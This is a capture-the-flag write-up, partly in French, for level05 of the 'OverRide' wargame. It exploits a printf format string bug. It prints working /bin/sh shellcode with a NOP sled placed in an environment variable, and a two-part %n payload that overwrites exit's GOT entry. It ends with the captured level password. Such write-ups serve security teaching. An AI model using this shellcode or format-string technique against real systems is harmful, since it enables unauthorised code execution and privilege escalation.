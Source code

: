 We notice a printf exploit

```
level05@OverRide:~$ ./level05
AAAA %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x
aaaa 64 f7fcfac0 f7ec3af9 ffffd6df ffffd6de 0 ffffffff ffffd764 f7fdb000 61616161 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825 78252078
```

We also notice there is a tolower() applied on every capital letter -> it implies we would not be able to put the shellcode derictly inside the buffer as some bytes will be modified.
It does not seems like there is existing executable code that would help us achieve our exploit.

Which means we will have to use a shellcode using env variables
We prefix it with a nopsled

```
export SHELLCODE=$(python -c 'print "\x90" * 100 + "\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80"')
```

Let's now get the shellcode's address

```
gdb ./level05
x/100s *environ
0xffffd866: "SHELLCODE=\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\061\311\367\341Qh//shh/bin\211\343\260\v̀"
```

On offset l'adresse de minimum 9 pour tomber sur le nopsled. (16 par precaution)
`0xffffd876` => `4294957174` en decimal

On va rediriger l'execution de la plt d'exit vers cette adresse:

```
0x8048513 <main+207>            call   0x8048370 <exit@plt>
disas 0x8048370
0x8048370 <exit@plt>                    jmp    *0x80497e0
```

We craft the payload:

```bash
(python -c 'print "\x08\x04\x83\x76"[::-1] + "%4294957c%10$n"' ; cat) | ./level05
```

As the padding is too large , we need to divide it into two 2 bytes write:

0xffff -> 65535
and 0xd876 -> 55414

we also need to remove 8 instead of 4 as there will be 2 adresses for the first one , then the size of what has been written to the second one
As FFFF > D876 we need to write first D876 then FFFF
55414 - 8 = 55406
65535 - 55414 = 10121

```bash
(python -c 'print "\x08\x04\x97\xe0"[::-1] + "\x08\x04\x97\xe2"[::-1] + "%55406c%10$n" + "%10121c%11$n"' ; cat) | ./level05
```

```
h4GtNnaMs2kZFN92ymTr2DcJHAzMfzLW25Ep59mq
```

